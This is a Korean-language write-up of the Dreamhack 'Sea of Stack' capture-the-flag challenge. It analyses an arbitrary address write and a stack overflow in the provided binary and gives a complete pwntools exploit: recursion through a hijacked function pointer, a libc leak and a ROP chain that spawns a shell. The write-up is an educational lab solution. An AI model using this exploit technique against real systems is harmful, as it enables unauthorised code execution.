








# [Dreamhack.io] Sea of Stack Write-Up

- **Platform:** Dreamhack
- **Date:** 2026-08-30 (solved) / 2026-09-02 (written)
- **Difficulty:** Medium

---

## 1. Challenge Overview (문제 개요)

> [!TIP]
> 📖 **문제 개요**
> - **목표:** `/bin/sh\x00` 실행
> - **제공 파일:**
> ```
> ┌──── Dockerfile
> └──── deploy/
>     ├──── flag
>     ├──── libc.so.6
>     └──── prob
> ```
> - **보호 기법:**
> ```
> Arch:       amd64-64-little
> RELRO:      Full RELRO
> Stack:      No canary found
> NX:         NX enabled
> PIE:        No PIE (0x400000)
> SHSTK:      Enabled
> IBT:        Enabled
> Stripped:   No
> ```


---

## 2. Vulnerability Analysis (취약점 분석)

### 소스 코드 / 디컴파일 분석

- ghidra를 통해 분석한 `main` 함수이다.

```c
undefined8 main(void)

{
  int iVar1;
  undefined8 local_38;
  undefined8 *local_30;
  char local_28 [28];
  int local_c;
  
  proc_init();
  printf("If you really want to give me a present, bring me that kind detective\'s heart.\n> ");
  read_input(local_28,0x10);
  iVar1 = strcmp(local_28,"Decision2Solve");
  if ((iVar1 == 0) && (gotPresent == 0)) {
    read_input(&local_30,8);
    read_input(&local_38,6);
    *local_30 = local_38;
    gotPresent = 1;
  }
  print_menu();
  local_c = read_number();
  if (local_c == 1) {
    (*(code *)safe)();
  }
  else if (local_c == 2) {
    (*(code *)unsafe)();
  }
  return 0;
}
```

- 맨 처음 입력에서 `Decision2Solve\x00\x00`를 입력하면 두 번의 입력을 한다.
- 이후, 처음 입력받은 값을 주소로 하여, 그 위치에 두 번째로 입력받은 값을 넣는 모습을 볼 수 있다. (여기서 원하는 주소에 값을 넣을 수 있는 AAW가 발생한다.)
- 다음은 `main` 함수에서 호출하는 `read_input`, `read_number` 함수의 소스 코드이다.

```c
ulong read_input(long param_1,int param_2)
{
  ulong uVar1;
  undefined1 local_11;
  int local_10;
  int local_c;
  
  local_c = 0;
  do {
    uVar1 = read(0,&local_11,1);
    local_10 = (int)uVar1;
    if (local_10 < 0) {
      fwrite("read error!\n",1,0xc,stderr);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    *(undefined1 *)(local_c + param_1) = local_11;
    local_c = local_c + 1;
  } while (local_c != param_2);
  if (*(char *)(param_1 + (long)local_c + -1) == '\n') {
    *(undefined1 *)(param_1 + (long)local_c + -1) = 0;
  }
  return uVar1 & 0xffffffff;
}
```

- `read_input()`은 한 바이트씩 입력을 받으며, 무조건 `param_2`만큼 입력을 받는다.
- if문에서 입력된 마지막 문자가 개행문자인 경우에만 그 위치를 NULL로 바꾼다.
  (따라서 NULL Termination을 보장할 수 없다.)

```c
int read_number(void)
{
  int iVar1;
  ssize_t sVar2;
  char local_28 [28];
  int local_c;
  
  sVar2 = read(0,local_28,0xe);
  local_c = (int)sVar2;
  if (local_c < 0) {
    fwrite("read error!\n",1,0xc,stderr);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  iVar1 = atoi(local_28);
  return iVar1;
}
```

- `read_number()`은 사용자 입력을 숫자로 변환한다.
</br>

- 다음은 gdb를 통해 두 개의 함수 포인터를 확인해보았다.



- 다음과 같이, `main` 함수에서 사용되는 두 개의 함수 포인터 `safe`, `unsafe`은 각각 `safe_func`과 `unsafe_func`의 주소를 가지고 있다.
- `safe_func`과 `unsafe_func`의 흐름을 보면 다음과 같다.



- `safe_func`은 0x30 바이트 크기의 버퍼에 0x29 바이트 입력을 받은 뒤, 0x28 바이트를 0으로 초기화한다.



- `unsafe_func`은 0x20 바이트 크기의 버퍼에 0x10000 바이트 입력을 받는다.
- `unsafe_func`에서 스택 버퍼 오버플로우가 발생한다.

> [!IMPORTANT]
> - `unsafe_func`은 입력을 `read_input` 함수로 처리한다.
> - 따라서 사용자는 0x10000 바이트 입력을 모두 채워야 한다.
> - 0x10000 바이트는 16 페이지(약 64KB) 크기이다.
> 
> 
> 
> - 위의 사진은 바이너리가 로드가 된 후 EP로 진입했을 때 스택의 크기를 보여준다.
> - 바이너리가 로드되었을 때, 초기 스택은 0x21000 바이트 크기를 가진다.

---

## 3. Trial & Error (삽질 및 실패 기록)

> [!CAUTION]
> ⚠️ **Attempt 1: 초기 스택이 0x10000 바이트보다 크므로 바로 호출해도 되겠지?**
> - **가설:** 초기 스택 크기가 0x21000 바이트로 크니까 바로 ROP 체인을 넣어도 될 것이다.
> - **시도 내용:** 먼저 0x10000 바이트의 더미값을 그저 보내보았다. 코드는 다음과 같다.
> ```
> from pwn import *
> p = process('./prob')
> p.sendafter(b'> ', b'A' * 0x10)
> p.sendlineafter(b'> ', b'2')
> payload = b'A' * 0x10000
> p.send(payload)
> p.interactive()
> ```
> - **결과 및 에러:** interactive 모드로 들어갈 때 EOFError와 바이너리 자체는 SIGSEGV 에러를 뿜으며 종료된다.
> 
> 
> 
> 	- 위 사진은 `unsafe_func`에 페이로드를 전달하기 전 `gdb.attach(p)`를 통해 디버거를 붙인 다음, SIGSEGV 에러가 난 모습이다.
> 	- 위의 `DISASM` 부분에서 `Cannot dereference`라는 부분에서 SIGSEGV 에러가 나온 모습이다.
>
> 
> 
> 	- 위 사진은 `Cannot dereference`가 되는 메모리 주소가 어느 부분인지 확인하기 위해 `vmmap` 명령어를 친 모습이다.
> 	- stack의 마지막 주소와 `Cannot dereference`가 되는 메모리 주소가 같은 것을 알 수 있다.
> 	- stack의 마지막 주소에 1바이트를 읽으려고 하니까 SIGSEGV 에러가 난 것이다.
> - **원인 분석:**
> 	- 왜 초기 스택 크기는 0x21000 바이트로 큰데 왜 들어가질 않을까?
> 	  => `스택은 거꾸로 자란다`라는 말이 여기서 그 이유를 설명해준다.
> 	     처음 스택 프레임은 메모리상 높은 주소에 위치하는데, 그 위치에서는 0x10000 바이트 크기의 입력을 받을 수 없다.
> 	  => 따라서 우리는 0x10000 바이트 크기의 입력을 받을 수 있도록 스택 프레임을 쌓아 올릴 필요가 있다.
> 	  => `main` 함수에서 단순히 반복적으로 `safe` 함수를 호출한다고 해도 스택 프레임은 다시 `main` 함수로 돌아오면서 그대로이다.
> 	  => 아직 사용되지 않은 exploit primitive인 `main` 함수에서의 AAW를 이용한다면, 다음과 같이 시나리오가 나온다.
> 		- 함수 포인터 `safe`의 주소를 통해 변수값을 `main` 함수의 주소로 바꾼다. (AAW 이용)
> 		- `main`에서 `safe` 함수를 호출하면 `main` 함수에서 `main` 함수를 호출하는 것이 되면서 스택 프레임이 쌓이게 된다.


---

## 4. Exploit Strategy (최종 해결 전략)

> [!TIP]
> ✏️ **페이로드 구성:**
> - `safe` 변수의 값을 `main` 함수의 주소로 바꾼다.
> - `main` 함수가 한 번 실행될 때의 스택 프레임이 0x40 바이트만큼 생기므로, 0x10000 / 0x40 = 0x400 번 이상의 `main` 함수가 호출되어야 스택 프레임이 총 0x10000 바이트가 생긴다.
> - 이후 `unsafe_func` 함수를 호출하여 `unsafe_func` 함수의 `ret` 주소에 `read@got` 함수 주소를 출력하고 다시 `unsafe_func` 함수로 돌아오도록 한다.
> - 다시 호출된 `unsafe_func`에서 `system("/bin/sh")`을 호출하는 ROP 체인을 구성한다.

### ROP 체인을 구성하는 데에 사용되는 가젯

#### `pop rdi; nop; pop rbp; ret` 가젯

- 주어진 바이너리 내에 `pop rdi`로 시작하는 가젯은 하나 뿐이었다.


* 이를 이용해 ROP 체인을 구성해보았다.

#### `system` 함수, `/bin/sh` 문자열 오프셋

- 두 정보는 다음으로 구하였다.
```
system() offset = libc.symbols['system']
"/bin/sh" file offset = next(libc.search(b"/bin/sh"))
```

---

## 5. Exploit Code (최종 익스플로잇 코드)

```python
from pwn import *

context.log_level = 'info'

def slog(name, addr): return success(': '.join([name, hex(addr)]))

# p = process('./prob')
p = remote('host3.dreamhack.games', 9116)
e = ELF('./prob')
libc = ELF('./libc.so.6')

p.sendafter(b'> ', b'Decision2Solve\x00\x00')

safe = e.symbols['safe']
main_func = e.symbols['main']
unsafe_func = e.symbols['unsafe_func']

# AAW (Arbitrary Address Write)
slog('safe', safe)
slog('main', main_func)
slog('unsafe_func', unsafe_func)

p.send(p64(safe))
p.send(p64(main_func)[:6])

# Stack frame expand (until 0x10000)
for i in range(0x400):
    print(f"Trial # {i}", end='\r', flush=True)
    p.sendlineafter(b'> ', b'1')

    p.sendafter(b'> ', b'A' * 16)

# Exploit
context.log_level = 'debug'
p.sendlineafter(b'> ', b'2')

puts_plt = e.plt['puts']
read_got = e.got['read']
read_plt = e.plt['read']

pop_rdi_rbp = 0x40129b
ret         = 0x40101a

# Stage 1
payload = b'B' * 0x28
payload += p64(pop_rdi_rbp) + p64(read_got) + p64(0)
payload += p64(puts_plt)
payload += p64(unsafe_func)
payload += b'\x00' * (0x10000 - len(payload))

p.send(payload)

# Stage 2

# Calculate libc base
read = u64(p.recvn(6) + b'\x00' * 2)
libc_base = read - libc.symbols['read']
system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b"/bin/sh"))

slog('read', read)
slog('libc base', libc_base)
slog('system', system)
slog('/bin/sh', binsh)

payload = b'C' * 0x28
payload += p64(pop_rdi_rbp) + p64(binsh) + p64(0)
payload += p64(ret) + p64(system)
payload += b'\x00' * (0x10000 - len(payload))

p.send(payload)

p.interactive()
```

- 원격 서버를 통해 익스를 진행하면 플래그를 획득할 수 있다.

